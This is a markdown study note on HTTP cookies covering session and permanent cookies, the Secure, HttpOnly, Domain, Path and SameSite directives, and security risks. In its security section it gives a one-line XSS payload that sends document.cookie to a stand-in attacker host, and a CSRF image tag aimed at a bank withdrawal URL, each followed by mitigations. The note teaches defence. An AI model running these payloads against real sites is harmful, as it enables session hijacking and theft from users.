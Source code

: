 # Cookies

Cookies are small pieces of data that a server sends to the user's web browser. The web browser may store it and send it back with the next request to the same server.

Main purposes of cookies:
1. **Session management** - logins, shopping carts, game scores, anything the server should remember.
2. **Personalization** - user preferences, themes.
3. **Tracking** - recording and analyzing user behavior.

In past, cookies were used for general client-side storage - they were the only way to store data on the client. Nowadays modern storage APIs are prefered - `localStorage`, `sessionStorage` and indexedDB.

`Set-Cookie` header is used to create a cookie.

## Cookie directives

### Session and permanent cookies

**Session cookies** are cookies without specified expiration (default). Theses are supposed to be deleted when client shuts down.
However, web browsers may use **session restoring** which makes most session cookies permanent.

**Permanent cookies** are cookies with specified expiration - `Expires` or `Max-Age`.
The date set in `Expires` is relative to the client the cookie is being set on, not the server.

### `Secure` and `HttpOnly` cookies

**Secure cookie** is only sent to the server with an encrypted request over the HTTPS protocol.

**HttpOnly** cookie is inaccessible to JavaScript's `Document.cookie` API, they are only sent to the server.
This applies to, for example, cookies that persist server-side sessions.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

### Setting the scope of a cookie

The scope of the cookie signals what URLs the cookies should be sent to.

`Domain` directive:
* specifies allowed hosts to receive the cookie;
* it defaults to the host of the current document location, excluding subdomains (for `mozilla.org` the cookies will not be included on `developer.mozilla.org`);
* if specified, then the subdomain are always included (if `Domain=mozilla.org` is set, the cookies will be included on `developer.mozilla.org`).

`Path` directive:
* specifies a URL path that must exist in the requested URL in order to send the `Cookie` header;
* uses %x2F ("/") character as a directory separator;
* matches subdirectories (if `Path=/docs` is set, `/docs`, `/docs/Web/` etc. will match).

### `SameSite` cookies

`SameSite` directive:
* means that a cookie shouldn't be sent with cross-site requests;
* this somewhat protects against cross-site request forgery attacks (CSRF);
* is not yet supported by all browsers.

Directive strictness:
* `SameSite=strict` - the cookies will be sent only if the request originated from the website that set the cookie;
* `SameSite=lax` - the cookies will not be sent on cross-domain subrequests - calls to load images or frames; the cookies will be sent when a user navigates to the URL from an external site, for example, by following a link.

## Security

### Session hijacking and XSS

Cookies that identify a user and their authenticated session, when stolen, can lead to hijacking the authenticated user's session.

Cookies can be stolen by exploiting XSS vulnerability in the application with the following code:
```javascript
(new Image()).src = "http://www.cookie-monster.com/steal-cookie?cookie=" + document.cookie;
```

To mitigate this attack:
* use `HttpOnly` directive;
* filter the user input.

### Cross-site request forgery (CSRF)

Example of CSRF:
1. Someone includes an image that isn't really an image in an unfiltered chat of forum:
```html
<img src="http://bank.example.com/withdraw?account=bob&amount=10000&for=mallory">
```
2. This is a request to bank's server to withdraw money.
3. If you are logged into your bank account, your cookies are still valid and there is no confirmation of withdrawal, an money will be transfered.

To mitigate this attack:
* filter the user input;
* perform confirmation of any sensitive actions;
* use `sameSite=strict` and short lifetime for sensitive actions.

## Tracking and privacy

TODO

